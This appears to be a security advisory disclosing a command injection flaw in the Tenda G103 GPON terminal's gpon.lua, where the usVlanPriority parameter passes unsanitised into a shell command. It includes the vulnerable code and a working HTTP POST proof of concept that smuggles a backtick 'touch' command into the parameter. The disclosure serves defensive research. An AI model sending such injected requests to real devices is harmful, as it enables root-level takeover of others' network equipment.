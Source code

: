 # Tenda G103 Command Injection Vulnerability in `usVlanPriority` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability arises due to improper sanitization of the `usVlanPriority` parameter, which is directly concatenated into system commands when `modeOption` is set to 2 or 3 (manual VLAN mode). Authenticated attackers can exploit this flaw to execute arbitrary system commands with root privileges, leading to potential full device compromise.

The environment can be simulated using FirmAE:



![FirmAE Emulation 1](./imgs/1.png)



![FirmAE Emulation 2](./imgs/2.png)

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com](https://tenda.com.cn/material/show/2615)[.cn/m](https://tenda.com.cn/material/show/2615)[ateri](https://tenda.com.cn/material/show/2615)[al/sh](https://tenda.com.cn/material/show/2615)[ow/26](https://tenda.com.cn/material/show/2615)[15](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `usVlanPriority`

*   **Trigger Condition**: `modeOption` must be set to 2 or 3 (manual VLAN configuration mode)

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, VLAN configuration tampering, network traffic manipulation, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function processes the `usVlanPriority` parameter, which configures the priority of user-side VLAN tags. A critical security flaw exists: when `modeOption` is set to 2 or 3, the `usVlanPriority` parameter is directly passed to the `fw_setenv` system command without sanitization or validation.

Key vulnerable code in `gpon.lua`:



![Vulnerable Code Snippet](./imgs/3.png)



```
local usVlanPriority = luci.http.formvalue("usVlanPriority")

local modeOption = luci.http.formvalue("modeOption")

\-- When modeOption is 2 or 3 (manual VLAN mode)

if 2 == tonumber(modeOption) or 3 == tonumber(modeOption) then

&#x20;   luci.util.exec(string.format("fw\_setenv us\_vlan\_priority \\"%s\\"", usVlanPriority))

end
```

Attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or `&&`) in the `usVlanPriority` parameter. Since these characters are not filtered, the injected payload is parsed and executed by the system shell when the command runs—specifically when `modeOption` is set to 2 or 3.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=ffa53ec8dc7db8ad4842c6e91589c8e9/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 74
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: \*/\*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: http://192.168.0.1
Referer: http://192.168.0.1/cgi-bin/luci/;stok=ffa53ec8dc7db8ad4842c6e91589c8e9/admin/gpon
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; sysauth=1db9fe0d814594958dc79f73fa79196d; sysauth=; repeatTimes=2; isLogin=true
Connection: keep-alive

&authSerialNo=&modeOption=3&usVlanId=0&usVlanPriority=1`touch$IFS/tmp/usVlanPriority.txt`&oltType=0&dhcpen=0
```

#### Execution Steps:



1.  Send the POST request above with `modeOption=3` (to trigger manual VLAN mode), a valid `stok`, and authentication cookies.

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/usVlanPriority.txt`.

#### Expected Result:

The file `/tmp/usVlanPriority.txt` is created, confirming successful execution of the injected `touch` command.



![PoC Result 1](./imgs/4.png)



![PoC Result 2](./imgs/5.png)

